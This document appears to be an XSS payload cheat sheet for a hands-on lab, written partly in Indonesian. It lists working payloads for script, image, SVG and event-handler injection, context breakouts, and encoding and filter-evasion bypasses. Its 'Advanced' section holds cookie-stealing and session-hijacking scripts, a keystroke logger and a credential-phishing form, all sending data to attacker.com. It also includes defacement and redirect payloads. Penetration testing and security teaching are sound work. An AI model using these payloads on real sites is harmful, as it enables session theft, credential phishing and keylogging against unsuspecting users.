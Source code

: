 # XSS Hands-On Lab Payloads

Kumpulan payload XSS untuk testing dan pembelajaran.

## Basic XSS Payloads

### 1. Script Tag
```html
<script>alert('XSS')</script>
<script>alert(document.domain)</script>
<script>alert(document.cookie)</script>
```

### 2. Image Tag
```html
<img src=x onerror=alert('XSS')>
<img src=x onerror=alert(document.domain)>
<img src="invalid" onerror="alert('XSS')">
```

### 3. SVG Tags
```html
<svg onload=alert('XSS')>
<svg onload=alert(document.domain)>
<svg><script>alert('XSS')</script></svg>
```

### 4. Input Tags
```html
<input autofocus onfocus=alert('XSS')>
<input onmouseover=alert('XSS')>
```

### 5. Body/HTML Tags
```html
<body onload=alert('XSS')>
<html onmouseover=alert('XSS')>
```

## Context-Specific Payloads

### HTML Attribute Context
```html
" onmouseover="alert('XSS')
' onfocus='alert('XSS')
" autofocus onfocus="alert('XSS')
```

### JavaScript Context
```javascript
'; alert('XSS'); //
"; alert('XSS'); //
'-alert('XSS')-'
</script><script>alert('XSS')</script>
```

### CSS Context
```css
red; } body { background: url('javascript:alert("XSS")')
expression(alert('XSS'))
</style><script>alert('XSS')</script>
```

### URL Context
```
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

## Advanced XSS Payloads

### Cookie Stealing
```html
<script>new Image().src='http://attacker.com/steal.php?cookie='+document.cookie</script>
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

### Session Hijacking
```html
<script>fetch('http://attacker.com/steal.php', {method: 'POST', body: document.cookie})</script>
```

### Keylogger
```html
<script>
document.addEventListener('keypress', function(e) {
    new Image().src='http://attacker.com/log.php?key='+e.key;
});
</script>
```

### Phishing
```html
<script>
document.body.innerHTML = '<h1>Login Required</h1><form action="http://attacker.com/phish.php" method="post"><input name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" value="Login"></form>';
</script>
```

### Defacement
```html
<script>
document.body.innerHTML = '<h1 style="color:red;">HACKED BY XSS</h1>';
</script>
```

### Redirect
```html
<script>window.location.href='http://malicious-site.com'</script>
<meta http-equiv="refresh" content="0;url=http://malicious-site.com">
```

## Bypass Techniques

### Encoding
```html
<script>alert(String.fromCharCode(88,83,83))</script>
<script>alert('\x58\x53\x53')</script>
<script>alert('\u0058\u0053\u0053')</script>
```

### Case Variations
```html
<ScRiPt>alert('XSS')</ScRiPt>
<SCRIPT>alert('XSS')</SCRIPT>
<svg OnLoAd=alert('XSS')>
```

### Alternative Tags
```html
<iframe src="javascript:alert('XSS')"></iframe>
<object data="javascript:alert('XSS')"></object>
<embed src="data:text/html,<script>alert('XSS')</script>">
```

### Event Handlers
```html
<div onmouseover=alert('XSS')>Hover me</div>
<button onclick=alert('XSS')>Click me</button>
<form><button formaction="javascript:alert('XSS')">Submit</button></form>
```

### Without Parentheses
```html
<script>alert`XSS`</script>
<script>setTimeout`alert\`XSS\``</script>
```

## DOM-based XSS Payloads

### Fragment-based
```
page.html#<script>alert('XSS')</script>
page.html#<img src=x onerror=alert('XSS')>
```

### Parameter-based
```
page.html?name=<script>alert('XSS')</script>
page.html?search=<svg onload=alert('XSS')>
```

## Filter Evasion

### Comment Insertion
```html
<scr<!--comment-->ipt>alert('XSS')</script>
<img src=x on<!--comment-->error=alert('XSS')>
```

### Null Byte
```html
<script%00>alert('XSS')</script>
<img src=x onerror%00=alert('XSS')>
```

### Alternative Quotes
```html
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(`XSS`)</script>
```

## Testing Checklist

### Input Fields
- [ ] Search boxes
- [ ] Comment forms
- [ ] User profiles
- [ ] Contact forms
- [ ] Registration forms

### URL Parameters
- [ ] GET parameters
- [ ] POST data
- [ ] URL fragments
- [ ] Path parameters

### Headers
- [ ] User-Agent
- [ ] Referer
- [ ] Cookie values
- [ ] Custom headers

### File Uploads
- [ ] Filename
- [ ] File content
- [ ] MIME type

## Defense Testing

Coba payload di atas pada aplikasi secure untuk melihat bagaimana defense mechanisms bekerja:

1. Input validation
2. Output encoding
3. Content Security Policy
4. X-XSS-Protection header
5. HTML sanitization

## Tools untuk Testing

- Browser Developer Tools
- Burp Suite
- OWASP ZAP
- XSSHunter
- BeEF Framework